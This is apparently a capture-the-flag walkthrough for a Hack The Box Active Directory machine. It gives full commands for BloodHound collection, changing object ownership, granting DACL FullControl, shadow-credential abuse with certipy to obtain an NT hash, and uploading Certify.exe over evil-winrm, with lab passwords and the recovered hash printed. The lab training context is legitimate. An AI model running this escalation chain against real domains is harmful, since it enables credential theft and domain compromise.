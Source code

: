 8.1 INFO: DOWNLOAD JSON files (ACTIVE DIRECTORY SERVER ENVIRONMENT)

RUN on Kali VM: bloodhound-python -u ryan -p \"WqSZAF6CysDQbGb3\" -d
sequel.htb -ns 10.10.11.51 -c All

8.2 INFO: Start DATABASE on Kali VM

RUN on Kali VM: sudo neo4j console

8.3 INFO: Start Bloodhound GUI and DRAG & DROP all JSON-files

Start Bloodhound: Login with credentials (previously configured, see
STEPS in CERTIFIED VM) User: neo4j Password: as163452

8.4 INFO: View rights of USER: Ryan. He has WRITE OWNER permission on
USER: CA_SVC. CA_SVC is certificate issuer

8.5 INFO: CA_SVC is certificate issuer, so set owner of CA_SVC to Ryan

RUN on Kali VM: bloodyAD \--host \'10.10.11.51\' -d \'escapetwo.htb\' -u
\'ryan\' -p \'WqSZAF6CysDQbGb3\' set owner \'ca_svc\' \'ryan\'

8.6 INFO: Get Control rights. SOURCE:
https://www.thehacker.recipes/ad/movement/dacl/grant-rights

IMPORTANT: IF THE FOLLOWING COMMAND IS NOT WORKING = ERROR: \[-\] Could
not modify object, the server reports insufficient rights: 00000005:
SecErr: DSID-03152E13, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0
=\>\>, repeat STEP 8.5 and RERUN impacket-dacledit command !

RUN: impacket-dacledit -action \'write\' -rights \'FullControl\'
-principal \'ryan\' -target \'ca_svc\'
\'sequel.htb\'/\"ryan\":\"WqSZAF6CysDQbGb3\"

9\. INFO: ESC4 to ESC1. SOURCE:
https://book.hacktricks.xyz/kr/windows-hardening/active-directory-methodology/ad-certificates/domain-persistence?fallback=true

INFO: Obtain SHADOW CREDENTIALS and NTHash.

IMPORTANT: If ERROR occurs: \[-\] Could not update Key Credentials for
\'ca_svc\' due to insufficient access rights: 00002098: SecErr:
DSID-031514A0, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0. NEXT: REPEAT
STEPS 8.5 & 8.6

RUN: certipy-ad shadow auto -u \'ryan@sequel.htb\' -p
\"WqSZAF6CysDQbGb3\" -account \'ca_svc\' -dc-ip \'10.10.11.51\'

GOT NTHASH: \[\*\] NT hash for \'ca_svc\':
3b181b914e7a9d5508ea1e20bc2b7fce

10\. INFO: Download Certify.exe from GITHUB
https://github.com/ademkanat/Certify/blob/main/Certify.exe

Find a usable template, it\'s settings have to be overwritten.

Use Certify.exe to upload to the target machine

RUN on Kali VM: evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3

INFO: Upload Certify.exe to SERVER
